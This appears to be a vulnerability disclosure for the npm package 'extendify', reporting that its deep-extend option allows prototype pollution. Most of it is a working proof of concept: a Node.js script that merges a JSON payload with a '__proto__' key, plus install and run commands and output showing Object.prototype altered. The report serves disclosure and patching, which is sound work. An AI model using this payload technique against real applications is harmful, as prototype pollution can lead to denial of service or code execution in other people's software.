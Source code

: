 # Description

`extendify` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var extendify = require("extendify")
extend = extendify({isDeep: true});
const payload = JSON.parse('{"__proto__":{"polluted":"Yes! Its Polluted"}}');
var obj = {}
console.log("Before : " + {}.polluted);
extend(obj, payload);
console.log("After : " + {}.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i extendify # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
